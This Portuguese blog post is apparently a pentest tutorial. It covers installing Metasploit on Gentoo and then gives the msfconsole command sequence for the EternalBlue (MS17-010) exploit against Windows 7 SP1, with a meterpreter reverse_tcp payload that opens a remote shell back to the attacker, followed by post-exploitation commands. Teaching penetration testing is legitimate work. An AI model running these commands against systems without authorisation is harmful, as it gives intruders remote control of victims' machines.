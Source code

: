 ```yaml
---
layout: post
title: "Como Acessar o Windows pelo Linux com Metasploit"
date: 2019-04-17 21:03:35
image: '/assets/img/dicas/metasploit-linux-min.jpg'
description: 'Metasploit é um projeto de segurança da informação que fornece informações sobre vulnerabilidades de segurança e ajuda nos testes de penetração.'
tags:
- metasploit
- security
- windows
---
```


![Como Acessar o Windows pelo Linux com Metasploit](/assets/img/dicas/metasploit-linux-min.jpg)

## Introdução

O [Metasploit](https://www.metasploit.com/) é um projeto de segurança da informação que fornece informações sobre vulnerabilidades de segurança e ajuda nos testes de penetração . 

É de propriedade da empresa de segurança Rapid7 , de Boston, Massachusetts que possui diversos softwares ( **Opcode** - *Banco de Dados* ; e o **Shellcode** , *que executa comandos de* [Shell Script](http://terminalroot.com.br/shell), ... ), entre eles o mais conhecido que é o [Metasploit Framework](https://github.com/rapid7/metasploit-framework), um software de código aberto uma ferramenta para explorar falhas de uma máquina remota.

O Metasploit possui 6 tipos de módulos (*auxiliary*, *exploit*, *payload*, *post*, *encoder* e *nop*) . No vídeo apresentado por nós vamos utilizar o [Meterpreter](https://github.com/rapid7/metasploit-framework/wiki/Meterpreter) que  é um *payload* avançado.


## Instalação

Existem diversas maneiras de você instalar o **Metasploit Framework** . Baixando diretamente pelo site <https://www.metasploit.com/> ou pelo GitHub <https://github.com/rapid7/metasploit-framework> . Ou instalando via gerenciador de pacotes da sua distribuição, por exemplo, na distribuição que eu utilizo [Gentoo](https://gentoo.org) basta realizar os comandos abaixo:

{% highlight bash %}
# su ou sudo
emerge -a net-analyzer/metasploit \
dev-ruby/metasploit_payloads-mettle \
dev-ruby/metasploit_data_models \
dev-ruby/metasploit-payloads \
dev-ruby/metasploit-model \
dev-ruby/metasploit-credential \
dev-ruby/metasploit-concern \
app-eselect/eselect-metasploit
{% endhighlight %}

O comando acima irá pedir para atualizar o *package.use* por conta das flags, então rode o comando:

{% highlight bash %}
etc-update --automode -5
{% endhighlight %}

E então rode o comando de instalação novamente.

Após instalação, talvez você não encontre o comando `msfconsole` responsável por abrir o Metasploit, então crie um link simbólico com o *root* ou *sudo*, com o comando abaixo:

{% highlight bash %}
ln -s /usr/lib64/metasploit4.17/msfconsole /usr/bin/msfconsole
{% endhighlight %}

E pronto, o Metasploit está pronto para uso! Lembrando que em algumas distribuições já possuem o Metasploit instalado por padrão, como o [Pentoo](http://terminalroot.com.br/2018/02/como-instalar-o-pentoo-um-gentoo-para-pentest.html) e o [Kali Linux](https://www.kali.org/) entre outras criadas especialmente para testes de invasão.

Próximo passo é rodar o Metasploit rodando o comando:

{% highlight bash %}
msfconsole
{% endhighlight %}

Isso irá abrir o framework, e em seguida usaremos o Meterpreter para acessar o [Windows](http://terminalroot.com.br/2018/03/como-usar-o-shell-bash-no-windows.html) , basta rodar os comandos abaixo na ordem:

{% highlight bash %}
use exploit/windows/smb/ms17_010_eternalblue
set RHOST NÚMERO_IP_DA_MÁQUINA_WINDOWS
set payload windows/x64/meterpreter/reverse_tcp
set LHOST NÚMERO_IP_DA_SUA_MÁQUINA
set encoder generic/none
exploit
{% endhighlight %}

Lembrando que esses comandos são a grosso modo e servem para Windows 7 Service Pack 1 , para outras versões assista o vídeo com link abaixo que há mais detalhes para variados casos:

Após acessar você pode obter informações detalhadas do sistema com o comando `sysinfo`; tirar um print da tela com o comando `screenshot` ; saber qual diretório você está com o comando `pwd` a saída será algo do tipo *c:\windows\system32\* ; desligar, reiniciar,... entre vários comando que podem ser consultado pelo comando `help` .

## Assista ao Vídeo

# [Clique Aqui Para Ver o Vídeo](https://youtu.be/VcbC0yJsWic)

> Esse artigo e o vídeo apresentado foram criados com finalidade didática.

***

## Conheça nosso Treinamentos de Shell Script, Vim, Expressões Regulares e Sed
# <http://terminalroot.com.br/cursos>

## Crie Sua Promoção
# <http://terminalroot.com.br/promo>

## Acompanhe todos os vídeos da **Série Shell Script Profissional**
# [#ShellPro](http://bit.ly/shell-pro-root)

Comente!

<script async src="https://pagead2.googlesyndication.com/pagead/js/adsbygoogle.js"></script>

<!-- Informat -->
<ins class="adsbygoogle"
 style="display:block"
 data-ad-client="ca-pub-2838251107855362"
 data-ad-slot="2327980059"
 data-ad-format="auto"
 data-full-width-responsive="true"></ins>

<script>
(adsbygoogle = window.adsbygoogle || []).push({});
</script>


